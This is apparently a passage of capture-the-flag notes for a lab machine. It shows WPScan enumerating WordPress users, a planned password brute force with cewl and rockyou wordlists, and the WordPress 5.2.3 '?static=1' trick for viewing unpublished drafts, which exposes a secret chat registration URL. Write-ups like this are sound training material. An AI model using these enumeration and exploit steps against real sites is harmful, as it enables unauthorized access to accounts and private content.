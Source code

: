 ```
 |   - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] nick
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] creedthoughts
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Mar 26 17:10:20 2022
[+] Requests Done: 3420
[+] Cached Requests: 10
[+] Data Sent: 934.471 KB
[+] Data Received: 18.872 MB
[+] Memory used: 282.758 MB
[+] Elapsed time: 00:00:59
```

This way we find a third user `creedthoughts`

- We can try to bruteforce login. Let's put all three users in a file
- Let's generate a wordlist with cewl using the website first and if it does not work we can use rockyou `cewl http://office.paper/ > pass.txt`
  => Not working with the generated wordlist from cewl
  => 
- There is a theme file with a readme that is quite bugging let's investigate with our google fu
  => nothing
- Let's investigate this hint about the draft maybe it has unauthicated access
  - It seems to be it here is [an article about this](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/)
  - According to this we just need to add static=1 to the url `http://office.paper/?static=1`
  - It works!!
  ```
  Threat Level Midnight
  A MOTION PICTURE SCREENPLAY,
  WRITTEN AND DIRECTED BY
  MICHAEL SCOTT
  [INT:DAY]
  Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….
  # Secret Registration URL of new Employee chat system
  http://chat.office.paper/register/8qozr226AhkCHZdyY
  # I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
  # Also, stop looking at my drafts. Jeez!
  ```
- this leak a secret registration url, we need to add this to our /etc/hosts `10.10.11.143	chat.office.paper`
- This way we can register on the chat http://chat.office.paper/register/8qozr226AhkCHZdyY
